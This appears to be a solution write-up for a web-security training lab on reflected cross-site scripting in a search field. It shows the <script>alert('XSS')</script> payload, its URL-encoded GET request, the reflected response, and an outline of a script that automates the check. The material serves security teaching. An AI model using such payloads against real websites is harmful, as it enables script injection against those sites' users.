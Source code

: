 ### Lab: Reflected XSS into HTML context with nothing encoded

This lab contains a simple reflected cross-site scripting vulnerability in the search functionality.

To solve the lab, perform a cross-site scripting attack that calls the alert function.

_____

Analysis and Exploit:

1. Inject a simple script alert in the search field and send it, the pop up message appears right after
    - ```<script>alert('XSS')</script>```

2. Intercept the process via **[BURP]**:
    - GET **/**
    - GET **/?search**=%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E   (```<script>alert('XSS')</script>```)  
        in the response:  
        ```<h1>0 search results for '<script>alert('XSS')</script>'</h1>```

    
_____

Script:

1. Check if the number of arguments received is correct (1 url)
    - if not, print usage instructions
2. Send payload | GET **/?search** | params: 'xss payload'
    - payload = %3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E
3. Check response for signs of successful exploit
    - if  ```<h1>0 search results for '<script>alert('XSS')</script>'</h1>``` in the response, exploit worked!